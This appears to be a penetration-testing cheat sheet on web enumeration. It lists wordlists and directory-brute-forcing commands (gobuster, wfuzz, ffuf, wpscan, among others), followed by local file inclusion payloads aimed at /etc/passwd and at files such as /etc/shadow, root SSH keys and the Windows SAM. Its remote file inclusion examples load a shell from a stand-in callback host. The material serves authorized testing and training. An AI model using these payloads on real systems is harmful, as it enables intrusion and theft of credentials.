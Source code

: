 # Web Enumeration

{% hint style="info" %}
If you are running BurpSuite proxy or FoxyProxy disable the interception before starting the tests.
{% endhint %}

### Common Wordlists to use for Web App Scanning:

Common Wordlists to use for Web Directory Scanning:

* /usr/share/wordlists/dirb/common.txt
* /usr/share/wordlists/dirbuster/\*.txt
* /usr/share/wordlists/wfuzz/general/\*.txt
* /usr/share/seclists/Discovery/Web-Content/

Common Wordlists to use for User Enumeration Scanning:

* /usr/share/seclists/Usernames
* /usr/share/wordlists/dirbuster/apache-user-enum-2.0

### Web App Scanners

Nikto:

* nikto --url

Wpscan:

* wpscan --url
* wpscan --url --enumerate ap at (All Plugins, All Themes)
* wpscan --url --enumerate u (Usernames)
* wpscan --url --enumerate v

Web Tools for Directory Scanning:

Dirb:

* dirb
* dirb

Gobuster:

* gobuster dir -u -w /usr/share/wordlists/
* gobuster dir -u -w /usr/share/wordlists/ -a Firefox (Custom Agent)
* gobuster dir -u -w /usr/share/wordlists/ -x .php,.txt,.html
* gobuster dir -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200"
* gobuster dir -e -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200"
* gobuster dir -v -e -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200"
* gobuster dir -v -e -u -w /usr/share/wordlists/ -x .php,.txt,.html -s "200" -o output.txt
* gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web\_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86\_64; rv:52.0) Gecko/20100101 Firefox/52.0'

Wfuzz:

* wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
* wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
* wfuzz -z file,wordlist/others/common\_pass.txt -d "uname=FUZZ\&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)
* wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)

Dirsearch:

* dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php

FFuF:

* ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0
* ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -b "COOKIE VALUE; security=low" -u http://172.21.0.0
* ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -fc 403, 302, 200
* ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -H "Host: 172.21.0.0" -u http://172.21.0.0
* ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://172.21.0.0 -timeout 5

Other Tools:

* Burp Suite
* OWASP Zap
* Cadaver
* SQLMap
* Joomscan
* Feroxbuster

### Testing for LFI:

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples:

http://example.com/index.php?page=etc/passwd http://example.com/index.php?page=etc/passwd%00 http://example.com/index.php?page=../../etc/passwd http://example.com/index.php?page=%252e%252e%252f http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux: /etc/passwd /etc/shadow /etc/issue /etc/group /etc/hostname /etc/ssh/ssh\_config /etc/ssh/sshd\_config /root/.ssh/id\_rsa /root/.ssh/authorized\_keys /home/user/.ssh/authorized\_keys /home/user/.ssh/id\_rsa

Windows:

Windows: /boot.ini /autoexec.bat /windows/system32/drivers/etc/hosts /windows/repair/SAM

### Testing for RFI:

http://example.com/index.php?page=http://callback.com/shell.txt http://example.com/index.php?page=http://callback.com/shell.txt%00 http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

### Resources

* Turning LFI to RFI: https://l.avala.mp/?p=241
